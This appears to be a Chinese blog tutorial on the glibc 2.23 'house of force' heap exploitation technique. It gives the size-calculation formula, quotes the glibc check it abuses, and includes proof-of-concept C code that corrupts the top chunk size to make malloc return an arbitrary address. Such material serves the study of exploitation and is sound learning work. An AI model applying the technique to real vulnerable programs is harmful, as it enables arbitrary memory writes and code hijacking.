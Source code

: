 ```yaml
---
layout: post
title: house of force：控制top chunk的size来malloc任意值
category: Heap
date: 2023-9-23 21:04:32
---
```

Heap基础知识
<!-- more -->
[toc]
# house of force

一句话描述该漏洞，在`glibc 2.23`下，通过控制`top chunk`的`size`域为一个特别大的值，导致可以通过`malloc`特别大的值或者负数来将`top chunk`的指针指向任意位置。

你需要进行控制的：

- `top chunk`的`size`域
- 你需要可以`malloc`一个特别大的值
- 你需要可以多次`malloc`

**公式**：

```c
request_size = new_top_chunk_addr - old_top_chunk_addr - 0x10;

// 其中request_size为malloc的大小
// new_top_chunk_addr是申请后top chunk会处于的位置
// old_top_chunk_addr是申请前top chunk会处于的位置
```

**原理：**

在`glibc 2.23`中，对于`top chunk`的检查仅仅只有`(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)`。

那么，若我们将`top chunk`的`size`修改为一个特别大的值，甚至是`-1`（由于是无符号数在进行判断，那么`-1`是最大的数），那么便可以申请任意大小的`chunk`。源码如下：

```c
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```

这里用`wiki`的例子，由于堆是低地址到高地址增长，那么可以申请负数地址来申请到更低的地址（例如`malloc@got.plt`）：

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

也可以通过申请特别大的值来申请到高地址，例如`__malloc_hook`（在`libc`里面）

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```

笔者通过一小段代码在`glibc2.23`中实现了`house of force`：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    long fake_chunk[0x110]; // 最终要是申请到了这里，那就说明攻击成功
    printf("the addr of fake_chunk is %p.\n", fake_chunk);

    long *a = malloc(0x100);                     // 如此一来，chunk a的下一个chunk将会是top chunk
    long *top_chunk = (long *)((long)a + 0x100); // top_chunk在a偏移0x100的地方
    top_chunk[1] = -1; // 将top chunk的大小修改为无限大

    long diff = (long)&fake_chunk[0] - (long)top_chunk; // 计算fake_chunk和top chunk此时相差的距离
    malloc(diff - 0x10);                                // malloc这个距离大小-0x10的chunk就是申请一个大小等于这个距离的，使得top chunk减小这个距离

    long *b = malloc(0x100);                                // 随便申请一个chunk
    printf("the addr of new malloc chunk is %p.\n", b - 2); // 发现申请到的chunk的地址就是fake

    return 0;
}
```
